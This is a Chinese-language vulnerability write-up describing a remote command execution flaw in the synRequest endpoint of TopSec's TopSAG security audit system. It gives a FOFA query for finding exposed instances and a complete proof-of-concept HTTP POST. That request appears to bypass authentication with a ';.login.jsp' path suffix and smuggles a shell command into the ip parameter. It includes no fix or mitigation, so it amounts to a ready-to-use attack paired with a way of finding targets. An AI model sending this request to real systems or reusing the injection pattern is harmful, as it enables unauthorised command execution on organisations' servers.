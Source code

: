# 一、漏洞简介
天融信运维安全审计系统TopSAG是基于自主知识产权NGTOS安全操作系统平台和多年网络安全防护经验积累研发而成，系统以4A管理理念为基础、安全代理为核心，在运维管理领域持续创新，为客户提供事前预防、事中监控、事后审计的全方位运维安全解决方案，适用于政府、金融、能源、电信、交通、教育等行业。天融信运维安全审计系统synRequest存在远程命令执行漏洞

# 二、影响版本
+ 天融信运维安全审计系统

# 三、资产测绘
+ fofa`header="iam" && server="Apache-Coyote/"`
+ 特征

![image-20241027110055964](assets\image-20241027110055964.png)

# 四、漏洞复现
```plain
POST /iam/synRequest.do;.login.jsp HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:130.0) Gecko/20100101 Firefox/130.0
Accept: application/json, text/plain, */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Content-Type: application/x-www-form-urlencoded
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-site
Content-Length: 67

method=trace_route&w=1&ip=127.0.0.1|echo%20`whoami`%3b&m=10
```

![image-20241027110112047](assets\image-20241027110112047.png)

